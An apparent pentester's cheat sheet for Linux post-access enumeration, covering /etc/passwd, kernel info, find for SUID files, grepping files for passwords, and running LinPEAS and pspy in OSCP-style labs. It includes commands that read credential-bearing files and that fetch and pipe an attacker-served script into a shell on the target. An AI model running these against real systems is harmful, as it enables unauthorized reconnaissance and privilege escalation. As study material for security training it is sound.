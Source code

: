 # Linux Enumeration

## Check who you are

```bash
┌──(mac㉿kali)-[~]
└─$ whoami
mac
```

or alternatively use `id` to see more information about your `uid` and which groups you are in:

```bash
┌──(mac㉿kali)-[~]
└─$ id
uid=1000(mac) gid=1000(mac) groups=1000(mac),27(sudo)
```

## Check for other people
Read the `/etc/passwd` file to see a list of users on the box:

```bash
$ cat /etc/passwd
```

Many of these users will relate to certain services, and not be a real person. Look for real users by filtering by those with a real login shell:

```bash
$ cat /etc/passwd | grep sh
root:x:0:0:root:/root:/bin/bash
mac:x:1000:1000:Mac,,,:/home/mac:/bin/bash
```

## Check kernel information

```bash
┌──(mac㉿kali)-[~]
└─$ uname -a
Linux kali 5.10.0-kali5-amd64 #1 SMP Debian 5.10.24-1kali1 (2021-03-23) x86_64 GNU/Linux
```

**What does this mean?**

The kernel is a central part of the operating system. This command tells you about the distribution (Kali Linux), the version, and the word size (`x86_64`, i.e. 64-bit)

## Reading all Files
This command concatenates the contents of any readable files in the current working directory:

```bash
$ cat */*
```

It can be combined with a `grep` to look for passwords, for example:

```bash
$ cat */* | grep pass
```

However, it is not particularly efficient on a large number of files - try to use it within a specific directory

## Find Command

Find files by user ownership (from [this post](https://unix.stackexchange.com/questions/22747/finding-files-by-their-owner-and-file-permissions))

```bash
$ find / -user userX
```

Find files by group ownership (from [this post](https://unix.stackexchange.com/questions/159244/find-files-belonging-to-a-group))

```bash
$ find / -group groupX
```
  
Find config files and redirect errors:

```bash
$ find / -name '*.conf' 2>/dev/null
```

Find suid files:

```bash
$ find . -perm /4000
```

Exclude a filename or other query with the `-not` or `!` operator:

```bash
$ find . -not -name "*.exe"

#exclude directories and files beginning with "sys"
$ find /var ! -name "sys*" ! -type d
```

As always, filter your output with `grep` if your find command is not granular enough:

```bash
# anything with "backup" in the name
$ find / -type f | grep backup

#get rid of stuff from /proc and /var/lib
$ find / -user user | grep -v 'proc\|var/lib'

#get rid of error messages (useful if the > operator doesn't work in a shell)
$ find / -user user | grep -v 'Permission denied'
```

You can even use regex in your `find` command with the `-regex` flag:

```bash
$ find ./ ! -regex  '.*\(deb\|vmdk\)$'
```

Or use logical operators like `-o` (logical OR):
```bash
$ find /media/d/ -type f -size +50M ! \( -name "*deb" -o -name "*vmdk" \)
```

(both of the above examples from https://unix.stackexchange.com/questions/50612/how-to-combine-2-name-conditions-in-find#)

## Linpeas
Install Linpeas from [GitHub](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

--

**IMPORTANT UPDATE:** on 22/04/21 @\_superhero1 on twitter revealed they [failed OSCP](https://twitter.com/_superhero1/status/1385206684109447168) because of a linpeas auto exploit regarding sudo tokens. They were eventually awarded the revoked points, but OffSec made it clear they would not be lenient in future. The offending auto exploit feature [was removed](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/issues/125), but you must make sure you use the [fixed version](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/commit/14601ecd35585537f0fe0041e411ecff0fcd27a8) of LinPeas, which has been [confirmed](https://www.offensive-security.com/offsec/understanding-pentest-tools-scripts/) by OffSec to be exam safe.

--

Placing `linpeas.sh` in `~/Documents/enum` allows you to easily retrieve it with a simple python server. See [[Aliases#Useful Aliases|Useful Aliases]] for `enumserve` alias setup instructions.

On attacker machine:

```bash
$ enumserve
```

Find your IP address ([[Linux Networking#Get your IP]])

On target machine:

```bash
$ wget [IP]:8000/linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.sh
```

You can also send it directly to `sh`/`bash` if `wget` is not installed:

```bash
$ curl 10.10.14.53:8000/linpeas.sh | sh
```

Sometimes firewall rules may prevent you from accessing port 8000 - try running the server on port 80 if you aren't getting any results (requires root permissions):

```bash
$ sudo python3 -m http.server 80
```

## Standard Directories to Check
```
/home
/var/www
/var/backups
/var/logs
/opt
/usr/share
/usr/share/local
```

## List Processes & Services
List processes:

```bash
$ ps aux
```

Pspy monitoring:

```bash
$ wget [IP]:8000/pspy64
$ chmod +x pspy64
$ ./pspy64
```

List services:

```bash
$ netstat
```

```bash
$ ss -lntp
```

```bash
$ systemctl list-units --type=service --state=running
```

**Why is this useful?**

- It allows you to see what might be running on a system - and therefore what might be a vulnerable process or service
- It gives you clues to the purpose/role of the user or the system
- It may help you identify processes that belong to higher-privileged users

# Tags

#cheat-sheet #enum #unix 